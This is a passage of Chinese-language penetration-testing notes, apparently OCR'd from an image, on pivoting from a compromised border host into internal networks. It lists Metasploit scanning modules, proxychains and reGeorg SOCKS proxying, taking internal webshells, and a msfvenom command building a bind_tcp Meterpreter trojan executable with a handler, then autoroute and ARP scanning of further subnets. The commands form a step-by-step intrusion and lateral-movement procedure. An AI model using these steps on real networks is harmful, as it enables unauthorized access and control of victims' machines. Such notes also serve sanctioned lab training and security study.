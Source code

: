   
、nmap、ping扫描等扫同网端存活主机  
  
- 扫描端口
```
use auxiliary/scanner/portscan/tcp
```

  
或者nmap扫，设置一下rhost和常用端口，运行  
  
- 
```
vim /etc/proxychains.conf
```

  
配置代理，浏览器开代理访问内网网站(建议foxyProxy插件)  
  
如果开了80端口，接下来就是搞内网的站，拿内网的webshell。注意蚁剑和burpsuit等工具也要配置代理  
  
**reGeorgSocksProxy指定的端口要和proxychains.conf文件里的端口一致**  
，因为这波操作的意义就是把边界机当作跳板，regeorgsocksproxy.py在边界机起到代理服务器的作用,proxychains就是客户端  
  
内网的站打下来了重复上述步骤到提权。  
### 二层内网渗透（bind）  
- 生成msf木马
```
msfvenom -p windows/meterpreter/bind_tcp lport=xxx -f exe -o 文件名
```

  
，因为内网不能直接连外网的原因,reverse版木马无法使用，但是我们有代理可以连内网。上传  
  
- 同理，生成了木马本地就需要有msf进程监听。
```
use exploit/multi/handler
```

  
，然后
```
set payload windows/meterpreter/bind_tcp
```

  
，payload和msf木马所用payload一致，设置参数lport和rhost.（这里开监听是在边界服务器开，也就是之前msf的边界服务器终端，lport当然也是边界机的端口，相当于本机msf对靶机边界机  
 的渗透变为了==靶机边界机对内网二层机==)  
  
- 在二层内网机提权运行msf木马拿到shell后，
```
run autoroute -s 另一内网网段
```

  
添加路由  
  
- 扫描，老样子，那几个扫描用啥都行，
```
run arp_scanner -r 网段
```
